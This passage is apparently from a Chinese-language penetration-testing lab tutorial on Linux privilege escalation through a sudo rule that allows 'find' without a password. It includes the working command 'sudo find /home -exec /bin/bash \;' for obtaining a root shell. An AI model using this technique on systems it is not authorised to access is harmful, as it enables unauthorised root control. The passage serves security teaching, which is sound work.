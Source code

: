 - 允许执行某个或某些命令，且未对命令参数做限制
- 只允许执行某条带参数的具体命令

##### 第一种：sudo 允许执行某个命令，但未对命令参数做限制

使用`sudo -l`命令查看当前用户的 sudo 权限：

![图片描述](..\images\2021-01-23_58.jpg)

如上图所示，可以看到如下一行配置：

```bash
(root) NOPASSWD:/usr/bin/find
```

等同于：

```bash
tomcat-syl ALL=(root) NOPASSWD:/usr/bin/find
```

意为 tomcat-syl 被允许以 root 权限执行 find 命令，并且无需密码。这种场景的提权方法和实验四中我们讲过的 SUID 提权非常相似，可以通过下面这条命令提权：

```bash
sudo find /home -exec /bin/bash \;
```

![图片描述](..\images\2021-01-23_59.jpg)

可以看到成功提权到 root 权限，原理如果不清楚的同学可以再回去看一下实验四，这里不再赘述。

如果是其他命令，和之前实验四中我们讲过的一样，可以通过以下网址查询提权方法：

```bash
https://github.com/iSecurity-Club/Pentest-Methodologies/tree/master/PostExploit/LinuxPE/SUID/Summary
```
